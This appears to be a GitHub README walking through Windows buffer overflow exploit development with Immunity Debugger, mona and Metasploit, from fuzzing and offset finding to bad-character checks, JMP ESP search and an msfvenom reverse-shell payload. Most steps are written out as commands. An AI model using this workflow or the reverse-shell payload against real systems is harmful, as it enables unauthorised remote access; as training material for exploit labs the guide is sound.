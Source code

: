 
# Buffer Overflow Exploit Development Guide / Immunity Debugger

This README provides a comprehensive guide to exploiting a buffer overflow vulnerability using Immunity Debugger and Metasploit. Follow the steps below to find the offset, identify bad characters, and create a payload to execute your exploit.

## Setup

### Configure Immunity Debugger

1. **Open Immunity Debugger**.
2. **Set the working folder for mona**:
   ```shell
   !mona config -set workingfolder c:\mona\%p
   ```

## Fuzzing the Target

1. **Fuzz the application to determine the crash point**. Check the EIP register has been overwritten. Save the number of bytes (referred to as `BYTECRASH`) that caused the crash for future steps.
```shell
   python3 1-fuzz.py --ip <IP> --port <PORT> --prefix "<COMMAND> "
   ```
## Finding the Offset

1. **Create a pattern of bytes to locate the offset**:
   ```shell
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l BYTECRASH+400
   ```
2. **Make it crash with the pattern**
   ```shell
   python3 2-offset.py <PATTERN>
   ```
3. **Find the offset distance**:
   ```shell
   !mona findmsp -d BYTECRASH+400
   ```
   Alternatively, you can use:
   ```shell
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l BYTECRASH+400 -q <EIP>
   ```
   Note the EIP sweet spot `OFFSET`


## Identifying Bad Characters

1. **Generate a byte array excluding null byte (`\x00`)**:
   ```shell
   !mona bytearray -b "\x00"
   ```
2. **Make the application crash with the bad character payload**.
   ```shell
   python3 3-badchars.py
   ```
3. **Compare the byte array**:
   ```shell
   !mona compare -f c:\mona\%p\bytearray.bin -a <esp|ESP address>
   ```
4. **Update the list of bad characters**:
   - Add the found bad characters to `generate-badchar.py`.
   - Note: It is usually every 2nd character after the first two characters.
5. **Repeat step 3 until no bad characters are found**.

## Finding Jump Points

1. **Find suitable JMP points**:
   ```shell
   !mona jmp -r esp -cbp "\x00\x..."  # Include all bad characters identified
   ```

## Creating the Payload

1. **Generate the payload with Metasploit**:
   ```shell
   msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=9001 EXITFUNC=thread -b "<BADCHARS|\x00\x..>" -f python -v "shellcode"
   ```
2. **Update the return address (`RETN`) in little-endian format in your exploit script (e.g., `4-exploit.py`)**.


